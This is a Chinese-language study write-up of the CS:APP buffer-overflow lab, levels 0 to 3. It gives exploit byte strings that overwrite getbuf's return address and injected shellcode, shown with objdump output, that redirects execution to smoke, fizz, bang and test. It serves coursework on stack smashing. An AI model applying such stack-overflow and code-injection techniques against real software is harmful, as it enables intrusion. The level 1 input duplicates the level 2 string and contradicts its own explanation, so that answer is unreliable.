 ```yaml
---
title: buffer lab
date: 2021-04-25 10:19:56
tags:
	csapp
---
```


buff lab 学习记录

<!--more-->

### level 0

由`getbu`f中的`0x08048fe6 <+6>: lea -0xc(%ebp),%eax`可知buf所在的地址为`%ebp-0xc`，由栈帧的结构可知`getbuf`中的返回地址保存在`%ebp+4`中，所以输入16个字节后输入的内容为smoke的地址`0x08048e20`

输入的内容为`64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 20 8e 04 08    `



### level 1

如同level 0，在`%ebp+4`(写入fizz的地址`0x08048dc0`，当推出getbuf函数后`%ebp`指向源`%ebp+8`,在fizz中执行完`push %ebp`后%ebp为源`%ebp+4`，根据`fizz 0x08048dc7 <+7>: mov 0x8(%ebp),%ebx`可知，val保存在源`%ebp+12`，所以在填完fizz的地址后4个字节开始数据cookie的值`0x113e5eb1`

输入的内容为`c7 05 dc a1 04 08 b1 5e 3e 11 68 60 8d 04 08 c3 2c b6 ff ff`



### level 2

`0x804a1dc`为global的地址，buf的地址为`0xffffb62c`，通过在buf处填入代码，再通过修改eip来使得getbuf return后返回buf处执行代码，其中填充的恶意代码为

```
movl $0x113e5eb1,0x804a1dc
pushl $0x08048d60
ret
```

意思为将global的值设为cookie，将bang函数的地址` $0x08048d60`压入栈，ret后返回bang函数处执行。
恶意代码地址为buf的地址：`0xffffb62c`
生成机器代码:

```
gcc -m32 -c l2_code.S
objdump -d l2_code.o > l2_code.d
```

l2_code.d中的内容为

```
00000000 <.text>:
0: c7 05 dc a1 04 08 b1 movl $0x113e5eb1,0x804a1dc
7: 5e 3e 11
a: 68 60 8d 04 08 push $0x8048d60
f: c3 ret
```

在l2.txt中填入`c7 05 dc a1 04 08 b1 5e 3e 11 68 60 8d 04 08 c3 2c b6 ff ff`



### level 3

跳到12行，要满足两个条件(1)local == 0xdeadbeef(2)val==cookie。由于使用了volatile关键字声明local，所以读local会直接从内存中读取而不是寄存器中读取，所以当函数执行完getbuf()返回test时%ebp必须和原来的相同，且getbuf返回cookie。
通过gdb查看test()中ebp的值为0xffffb658，getbuf返回后执行的下一条指令的地址为0x0804901e
插入的恶意代码为:

```
movl $0x113e5eb1,%eax
movl $0xffffb658,%ebp
pushl $0x0804901e
ret
```

最后生成l3_code.d中的内容为

```
Disassembly of section .text:

00000000 <.text>:
0: b8 b1 5e 3e 11 mov $0x113e5eb1,%eax
5: bd 58 b6 ff ff mov $0xffffb658,%ebp
a: 68 1e 90 04 08 push $0x804901e
f: c3 ret
```

输入:

```
b8 b1 5e 3e 11 bd 58 b6 ff ff 68 1e 90 04 08 c3 2c b6 ff ff
```

